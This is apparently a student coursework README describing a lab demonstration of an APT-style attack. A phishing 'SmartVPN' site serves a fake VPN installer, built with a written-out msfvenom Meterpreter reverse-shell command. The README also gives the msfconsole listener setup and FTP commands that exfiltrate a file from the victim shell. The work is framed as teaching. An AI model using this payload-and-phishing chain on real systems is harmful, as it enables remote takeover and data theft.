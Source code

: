 ## SmartVPN

This is a repository containing code for demonstration of APT attacks for Introduction to Cyber Security Coursework in IIIT Sricity.

This repo contains the server-side rendering code for a phishing website called as Smart VPN which has a maliicous .elf executable file as vpn_setup.elf which as the name suggests, is a fake VPN setup file which if executed, can open a connection to the attacker and spawn a shell of the victim's machine at the attacker's end.

We are setting up a reverse shell on the victim's computer which will connect to the attacker's machine which is listening to the connection request from any machine after the malicious file has been sent!

Note: This is only for educational purposes!


## Project Contributors

- Pranauv Kumar
- Rahul Aggarwal
- Sai Swetha M
- Anurag Yadav

## Some Information on APT

APTs are sophisticated, targeted cyber attacks
conducted by well-funded and highly skilled threat
actors.

One reknowned example of APT is APT28 -it is associated
with Russian state-sponsored hacking groups.

There are 5 Steps in APT :-
1) Reconnaisance and Weaponization - This is where where attacker collect information about the target organization by investigating its employees, partners, or customers and makes a malicious weapon well-crafted for one particular target inside the organization!
2) Delivery and Initial Intrusion - This is where they send the malware into the system inside a network they want to hack (thru various methods like Phishing mails, Water Holing Attack, etc) and get hold of a computer in the org's network.
3) Command and Control - This is where the attacker sets up Remote Access Tools / Backdoors in the victim's computer to access his computer when the host program is not running also.
4) Lateral Movement - This is where the attacker maps the org's devices through one compromised device and travels between them to get as much information as possible ( in a very slow manner so as to not alert the systems )
5) Data Exfiltration - This is where the collected data is sent to the attacker through any means like social media websites, file transfers, etc.

## How to Make It Work!

For demonstration, we need two Virtual Machines - Kali Linux and Ubuntu Linux default setup with FTP servers (VSFTPD preferably - installation not in the scope of this repository).

Note, here we are having 2 VMs in the same network for ease of demonstration and the IP addresses are on the basis of that!

Kali's IP - 192.168.100.4 and Ubuntu's IP - 192.168.100.5

In Kali Linux,

Firstly, Clone the project to have the Fake Website ready for the victim to download the malicious VPN setup file. 

```bash
  git clone https://github.com/Pranauv-Kumar1803/ICS.git
```

Go to the project directory

```bash
  cd ICS
```

Install dependencies in both client and server folder

```bash
  npm install
```

Start the server

```bash
  npm start
```

Next, create the malicious .elf executable file using msfvenom toolkit. The code is as given below:
```bash
  msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.100.4 LPORT=4443 -f elf > vpn_setup.elf
```

Then, setup the Listener using msfconsole ( Listen on the same host ip address and port as mentioned in the creatino of the .elf file code above ):
```bash
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost 192.168.100.4
set lport 4443
exploit
```

Now that the listener is up and running in the Kali, we go for the Ubuntu.

From here, we access the SmartVPN website that is hosted on port 8000 of 192.168.100.4 and download the vpn setup from the website and we run it!

Boom!

Now, we have a hit in the Kali Linux's Listener inside msfconsole and now we can access the victim's computer through the shell that was spawned!

After this, to just show the data exfiltration part, we use FTP to connect from the victim's shell to the attacker's computer to exfiltrate some data (some random dummy.pdf files from victim's computer)
to do this, type the fllg in the shell spawned in the Kali,

```bash
shell
bash
ftp 192.168.100.4  #and enter kali's ftp password when prompted
put dummy.pdf ./   #to transfer dummy.pdf from victim's to attacker's computer
``` 

put command here sees the dummy.pdf in the main/default directory of ftp User in Ubuntu and transfers it to the default directory of Kali's ftp user.

Now we are done with the whole demonstration!
